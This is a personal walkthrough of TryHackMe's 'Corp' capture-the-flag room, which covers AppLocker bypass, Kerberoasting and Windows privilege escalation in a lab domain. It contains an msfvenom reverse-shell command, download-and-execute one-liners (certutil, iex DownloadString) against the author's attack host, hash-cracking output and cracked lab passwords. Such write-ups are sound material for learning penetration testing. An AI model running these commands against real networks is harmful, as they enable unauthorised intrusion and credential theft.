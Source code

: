 ```yaml
---
title: "TryHackMe Corp Walkthrough - Corporate Network Penetration Testing"
description: "Complete walkthrough of TryHackMe's Corp room. Learn corporate network penetration testing, Active Directory attacks, and enterprise security assessment."
keywords: ["tryhackme corp", "corporate pentest", "active directory", "network penetration", "enterprise security", "domain attacks"]
tags: ["tryhackme", "corporate", "active-directory", "network-pentest", "enterprise"]
sidebar_position: 7
---
```


:::info Description

These are my notes for the [Corp Room](https://tryhackme.com/room/corp) on TryHackMe.

Note: Task #1 is to deploy the machine.

|OS|Level|Rating
|:---:|:-----:|:-----:|
|Windows|Easy|5/5|

:::

## TASK2: BYPASS APPLOCK

I RDP to the machine with login details provided. On the machine I can't execute anything with AppLocker tripping and stopping me.

### shell.exe

I want to generate a malicious shell and download to an 'allow-listed' directory e.g. `C:\Windows\System32\spool\drivers\color`.

Generate: `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.55.83 LPORT=80 -e x86/shikata_ga_nai -f exe -o shell.exe`

Serve it from my attack machine: `sudo python3 -m http.server 80`

Try pull it down from my RDP session: `certutil.exe -urlcache -f http://10.11.55.83/shell.exe shell.exe` WRONG.

Try again with PowerShell: `Invoke-WebRequest -Uri "http://10.11.55.83/shell.exe" -OutFile ".\shell.exe"` CORRECT.

download to directory: `C:\Windows\System32\spool\drivers\color` successful, but running the exe kept tripping AV. need to look into obfuscating binary in some way.

## TASK3: KERBEROASTING

Follow instructions on how to complete this task.

### enumerate windows

Looking for existing Service Principals (spn):

```powershell
PS C:\Users\dark> setspn.exe -T medin -Q */*
Ldap Error(0x51 -- Server Down): ldap_connect
Failed to retrieve DN for domain "medin" : 0x00000051
Warning: No valid targets specified, reverting to current domain.
CN=OMEGA,OU=Domain Controllers,DC=corp,DC=local
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/omega.corp.local
        ldap/omega.corp.local/ForestDnsZones.corp.local
        ldap/omega.corp.local/DomainDnsZones.corp.local
        TERMSRV/OMEGA
        TERMSRV/omega.corp.local
        DNS/omega.corp.local
        GC/omega.corp.local/corp.local
        RestrictedKrbHost/omega.corp.local
        RestrictedKrbHost/OMEGA
        RPC/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        HOST/OMEGA/CORP
        HOST/omega.corp.local/CORP
        HOST/OMEGA
        HOST/omega.corp.local
        HOST/omega.corp.local/corp.local
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/7c4e4bec-1a37-4379-955f-a0475cd78a5d/corp.local
        ldap/OMEGA/CORP
        ldap/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        ldap/omega.corp.local/CORP
        ldap/OMEGA
        ldap/omega.corp.local
        ldap/omega.corp.local/corp.local
CN=krbtgt,CN=Users,DC=corp,DC=local
        kadmin/changepw
CN=fela,CN=Users,DC=corp,DC=local
        HTTP/fela
        HOST/fela@corp.local
        HTTP/fela@corp.local

Existing SPN found!
```

### get kerberoast.ps1

no external network, served the kerberoast ps1 from my local webserver:

```powershell
PS C:\Users\dark> iex(New-Object Net.WebClient).DownloadString('http://10.11.55.83/Invoke-Kerberoast.ps1')
PS C:\Users\dark> Invoke-Kerberoast -OutputFormat hashcat|fl


TicketByteHexStream  :
Hash                 : $krb5tgs$23$*fela$corp.local$HTTP/fela*$1F4596FE1600B29B2C9C9372905C3DAA$55AD748236930A037C
                       D75C0720E2B5416A7A48FD40189B621C110C19DC51AA947718EFE907583823B8FF220F32E1277F3FEB01DE738E8
                       5DC1F15ACEDAAC6C0B30C66936464C1F0B20388F539EDCDA68FE4A588383BC8A4E139C491EE5B5ACF4481954D86
                       86DDF9C4E685628AAFAA95BCFE5E3FE2E8C1CCECE32071EBB07997C0B5C6B8814EBF973C9486680FA944F98F6A2
                       46D50205A9BB026D43CC326D053346767F54DC4FF4F822548F0FF0BA58D58A3BA14ABF05A004B4E50D42F68664A
                       E4EAC6660FADAA4B87A61A227CC956CBCF6E7FEA4AFFFFD6374AC20614177BF09C54F2EEE0CA2615FA4FA941430
                       1D251AB5616774D07FEF1E3F4337D9AB58A33861A7B95120E0BDD537D5CA2E1427CB4075FDE81AAC3FF502AA8C1
                       9CB629C69211D19193A498F36DDD8EF1630A95E22E35B6A72E1482B5A4231F3A6B335A6F88954FBE5E3BD25287D
                       B91AF143BB91C6A5538776CAF5E339C8CB045E4927F7395D606FC90DFD60ABAF04FA39D42D684FC9E70A521CA50
                       272C43CA51E2C7C85C470BEA4509F4EAA84467F9878B96D1CA32550E635175C0E5129669F8F80264D451A83D9E8
                       6E6A1FBD6E5B0436C20D43B5187F80A626EEF84D0477AFBA4729F0342601CFCE3FA891229959D8EFF0A48ABB782
                       146105769CFEF0C19A60DB10943323D11BED7CFD65C56B2D2CB5CDC5D0B13580469F0664188427C86D5F758A53B
                       7041DD9678439695545A5A19497FDF82E02F51427D1E1AC2BD9AA23CF87F45925BE17707244D3920D7F144199D0
                       DCD58968D5B07FBE9753109AC735442A85111D1DC8246A86E68E5F18DBB18511C9842EB9CBD0E0E74380DA176BF
                       68A1235AD6FD99CAAB44184709339845D2FE3AA2A1ADC0A5FD27374DA33CF19A674AF740368A4862295414FF2A6
                       DAEE9B2E17E911374292A8D08A42A5D83DE63C7B9026C83BC8A47DAE2F46BAC78B86051565C8BF078ED8E73C8DB
                       CA22C382CF4633DD0C9573EF300CC836377FADB488936B2DD07922D544EE85FA50BA0514F72EE7288FC4A028035
                       ABD9E255D424B4B7A80DCCA27846C2EDE8957EA025F49A1D9367B9309D4516B30694C34E10EEC694795FE1D3BC3
                       E0D86332124ED33F9A3084F25B3BA2DD59AEB585FC94BE95A7AABF7165377EA92AEDF441E6C2D29E2F2501DFA0B
                       255AA76A3869D8262D0A6D7F3C6BDD17BC83AB5EC85D9DB71D58B00EC8F7F4E001C9C856F812ADD9ED42905A03B
                       17ED2ACB153D7B2D334C05BFBC68AFC0ECEFA97864F4B060D612B3FE436FA6B3DE682DF0E2788AAB4F57DF35D08
                       4CDB2290DB60B8F4C30717084A6125BC79538B128DF1F73603F40448F4934AF27D3711682B5516EB2902A86E639
                       45BC7FD6D75A10558E7A419AA006C1DCC9AB195E757F521513299C3B2
SamAccountName       : fela
DistinguishedName    : CN=fela,CN=Users,DC=corp,DC=local
ServicePrincipalName : HTTP/fela
```

### crack hash

copied the hash to a text file `hash.txt` and then used `cat hash.txt | tr -d "[:space:]" > hash.file` to remove all whitespaces and join the hash up.

then used john (thanks tedd) to crack:

```bash
➜  CORP git:(main) ✗ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rubenF124        (?)
1g 0:00:00:07 DONE (2022-03-31 22:36) 0.1340g/s 554003p/s 554003c/s 554003C/s rubens02..ruben4484
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

show

```bash
➜  CORP git:(main) ✗ john --show hash.txt
?:rubenF124

1 password hash cracked, 0 left
```

## PRIVESC: user

RDP logged in as `fela` and got flag from desktop.

## PRIVESC: root

Web served the `PowerUp.ps1` script from my attack machine: `iex​(New-Object Net.WebClient).DownloadString('http://http://10.11.55.83/download/PowerUp.ps1')`

### PowerUp.ps1

Found a hash value:

```powershell
PS C:\Users\fela.CORP> iex(New-Object Net.WebClient).DownloadString('http://10.11.55.83/download/PowerUp.ps1')
PS C:\Users\fela.CORP> type C:\Windows\Panther\Unattend\Unattended.xml
<AutoLogon />
    <Password />
        <Value />dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=</Value>
        <PlainText />false</PlainText>
    </Password>
    <Enabled />true</Enabled>
    <Username />Administrator</Username>
</AutoLogon>
```

```bash
dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=
certutil.exe -decode "C:\path\to\b64.txt" decode.txt`

$echo dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ= | base64 -d
tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T
```

Use `tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T` admin password with `evil-winrm` login as Admin, grab flag from `C:\Users\Administrator\Desktop`

